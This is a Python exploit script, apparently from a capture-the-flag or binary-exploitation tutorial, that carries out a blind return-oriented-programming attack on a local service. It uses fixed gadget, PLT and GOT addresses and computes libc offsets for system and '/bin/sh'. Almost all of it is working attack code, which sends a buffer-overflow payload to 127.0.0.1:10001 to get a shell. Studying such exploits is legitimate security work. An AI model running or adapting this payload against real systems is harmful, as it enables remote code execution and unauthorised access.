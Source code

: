 ```python

#buf_size = get_buffer_size()
buf_size = 72

#stop_addr = get_stop_addr(buf_size)
stop_addr = 0x4005e5

#gadgets_addr = get_gadgets_addr(buf_size, stop_addr)
gadgets_addr = 0x40082a

#puts_plt = get_puts_plt(buf_size, stop_addr, gadgets_addr)
puts_plt = 0x4005e7     # fake puts
#puts_plt = 0x4005f0    # true puts

# dump code section from memory
# and then use Radare2 or IDA Pro to find the got address
#start_addr = 0x400000
#end_addr   = 0x401000
#code_bin = dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr)
#with open('code.bin', 'wb') as f:
#   f.write(code_bin)
#   f.close()
puts_got = 0x00601018

# you can also dump data from memory and get information from .got
#start_addr = 0x600000
#end_addr   = 0x602000
#data_bin = dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr)
#with open('data.bin', 'wb') as f:
#    f.write(data_bin)
#    f.close()

# must close ASLR
#puts_addr = get_puts_addr(buf_size, stop_addr, gadgets_addr, puts_plt, puts_got)
puts_addr = 0x7ffff7a90210

# first add your own libc into libc-database: $ ./add /usr/lib/libc-2.26.so
# $ ./find puts 0x7ffff7a90210
# or $ ./find puts 210
# $ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570
# $ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570 puts
# then you can get the following offset
offset_puts   = 0x000000000006f210
offset_system = 0x0000000000042010
offset_str_bin_sh = 0x17aff5

system_addr = (puts_addr - offset_puts) + offset_system
binsh_addr  = (puts_addr - offset_puts) + offset_str_bin_sh

# get shell
payload  = "A"*buf_size
payload += p64(gadgets_addr + 9)    # pop rdi; ret;
payload += p64(binsh_addr)
payload += p64(system_addr)
payload += p64(stop_addr)

p = remote('127.0.0.1', 10001)
p.recvline()
p.sendline(payload)
p.interactive()
```
